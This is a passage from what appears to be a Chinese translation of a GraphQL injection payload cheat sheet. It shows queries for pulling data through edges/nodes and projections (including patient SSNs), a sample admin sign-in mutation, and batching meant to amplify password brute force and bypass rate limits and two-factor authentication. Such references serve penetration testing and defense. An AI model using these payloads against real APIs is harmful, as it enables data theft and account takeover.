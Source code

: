 ```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)

### 使用边缘/节点提取数据

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### 使用投影提取数据

:warning: 别忘了在 **options** 中转义双引号。

```js
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```

### 使用变异

变异就像函数一样，您可以使用它们与 GraphQL 进行交互。

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### GraphQL 批处理攻击

常见场景：

* 密码暴力破解放大场景
* 绕过速率限制
* 绕过两步验证

#### 基于 JSON 列表的批处理

> 查询批处理是 GraphQL 的一个特性，允许将多个查询发送到服务器上的单个 HTTP 请求。客户端可以将操作数组作为单个 POST 请求的一部分发送到 GraphQL 服务器，而不是分别发送每个查询。这减少了 HTTP 请求的数量，并且可以提高应用程序的性能。

查询批处理通过在请求正文中定义操作数组来工作。每个操作可以有自己的查询、变量和操作名称。服务器处理数组中的每个操作，并返回一个响应数组，每个批处理中的查询一个响应。

```json
[
    {
        "query":"..."
    },{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ...
]
```